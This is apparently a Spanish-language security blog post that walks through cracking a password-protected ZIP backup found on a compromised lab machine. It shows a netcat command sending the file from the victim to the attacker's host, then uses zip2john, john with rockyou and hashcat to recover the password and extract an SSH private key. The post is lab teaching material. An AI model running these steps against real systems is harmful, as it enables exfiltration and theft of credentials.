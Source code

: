 ```yaml
---
date: 2023-03-12T22:25:05.000Z
layout: post
comments: true
title: ZIP cracking
subtitle: 'técnica de recuperación'
description: >-
image: >-
    http://imgfz.com/i/onKZRPH.png
optimized_image: >-
    http://imgfz.com/i/onKZRPH.png
category: ciberseguridad
tags: 
  - hacking
  - Wireshark
  - hashcat
  - john
  - zip2john
author: Felipe Canales Cayuqueo
paginate: true
---
```


Es el proceso de intentar recuperar la contraseña de un archivo zip cifrado sin tener que conocerla. Se realiza mediante el uso de herramientas de cracking que intentan diferentes combinaciones de contraseñas hasta encontrar la correcta.

### Ejemplo práctico

En este caso tenemos el caso de una máquina víctima en que se ingresó desde una web y se detecta un backup para acceder como un usuario:

```bash
www-data@user:/var/backups$ ls
alternatives.tar.0     alternatives.tar.2.gz  dpkg.arch.0     dpkg.arch.2.gz	 dpkg.diversions.1.gz  dpkg.statoverride.0     dpkg.statoverride.2.gz  dpkg.status.1.gz  user_backup.zip
alternatives.tar.1.gz  apt.extended_states.0  dpkg.arch.1.gz  dpkg.diversions.0  dpkg.diversions.2.gz  dpkg.statoverride.1.gz  dpkg.status.0	       dpkg.status.2.gz
```

Nos enviamos el zip a la máquina atacante por medio de netcat:

```bash
www-data@user:/var/backups$ nc 10.1.1.19 4646 < user_backup.zip 
```

Y lo recibimos en la máquina de la siguiente forma:

```bash
┌─[root@kali]─[/home/user/zip]
└──╼ nc -nlvp 4646 > user_backup.zip    
listening on [any] 4646 ...
connect to [10.1.1.19] from (UNKNOWN) [10.1.1.40] 56460
^C

┌─[root@kali]─[/home/user/zip]
└──╼ ls
user_backup.zip
```

Una vez lo tenemos en nuestra máquina atacante, verificamos abrirlo:

```bash
┌─[root@kali]─[/home/user/zip]
└──╼ unzip user_backup.zip        
Archive:  user_backup.zip
[user_backup.zip] id_rsa password: 
   skipping: id_rsa                  incorrect password
   skipping: id_rsa.pub              incorrect password
   skipping: my_password.txt         incorrect password
   skipping: easysysinfo.c           incorrect password
```

Ahora necesitamos obtener un hash del archivo zip por medio de la herramienta ```zip2john```, incluida en el paquete John the Ripper que permite extraer el hash de contraseñas de archivos zip.

```bash
┌─[root@kali]─[/home/user/zip]
└──╼ zip2john user_backup.zip > hash
ver 2.0 efh 5455 efh 7875 user_backup.zip/id_rsa PKZIP Encr: TS_chk, cmplen=1979, decmplen=2590, crc=A144E09A ts=0298 cs=0298 type=8
ver 2.0 efh 5455 efh 7875 user_backup.zip/id_rsa.pub PKZIP Encr: TS_chk, cmplen=470, decmplen=563, crc=41C30277 ts=029A cs=029a type=8
ver 1.0 efh 5455 efh 7875 ** 2b ** user_backup.zip/my_password.txt PKZIP Encr: TS_chk, cmplen=35, decmplen=23, crc=21E9B663 ts=02BA cs=02ba type=0
ver 2.0 efh 5455 efh 7875 user_backup.zip/easysysinfo.c PKZIP Encr: TS_chk, cmplen=115, decmplen=148, crc=A256BBD9 ts=0170 cs=0170 type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.

┌─[root@kali]─[/home/user/zip]
└──╼ cat hash  
user_backup.zip:$pkzip$4*1*1*0*8*24*0170*ec4fd2b0aa20f56edb8a937f1139b2d2629a0cae87a5fc2350b0c4162c0c397334b2d3ad*1*0*8*24*029a*7bf140f80a405c4cf07debe3636404195407270f1d414555d6dc8b670dfd98659a733cb0*1*0*8*24*0298*625ef25ed71ddc48eaa744529308a8ccb41ce3deb3d707da114f2fb6f56de89adc7060e4*2*0*23*17*21e9b663*a35*49*0*23*02ba*9c8949619fb53f6d8f1f200bfedaf3321542d0d588aca8f8a1c5da5113463a151a5058*$/pkzip$::user_backup.zip:my_password.txt, easysysinfo.c, id_rsa.pub, id_rsa:user_backup.zip
```

Una vez obtenemos el hash, los crackeamos por medio de ```john```:

```bash
┌─[root@kali]─[/home/user/zip]
└──╼ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!randybaby       (user_backup.zip)     
1g 0:00:00:04 DONE (2023-03-04 19:31) 0.2293g/s 3289Kp/s 3289Kc/s 3289KC/s "2parrow"..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Para hashcat se podría realizar lo siguiente:

```bash
hashcat.exe -m 17200 -a 0 -o output.txt --force --potfile-disable hash.txt rockyou.txt
```

Detectamos que la contraseña es ```!randybaby``` y la probamos para acceder:


```bash
┌─[root@kali]─[/home/user/zip]
└──╼ unzip user_backup.zip 
Archive:  user_backup.zip
[user_backup.zip] id_rsa password: 
  inflating: id_rsa                  
  inflating: id_rsa.pub              
 extracting: my_password.txt         
  inflating: easysysinfo.c 

┌─[root@kali]─[/home/user/zip]
└──╼ ls
hash  id_rsa  id_rsa.pub  my_password.txt  user_backup.zip

```

Como se aprecia obtenemos acceso y podemos observar los archivos de la contraseña y del id_rsa, que se podría usar dando los privilegios adecuados ```chmod 600 id_rsa```.


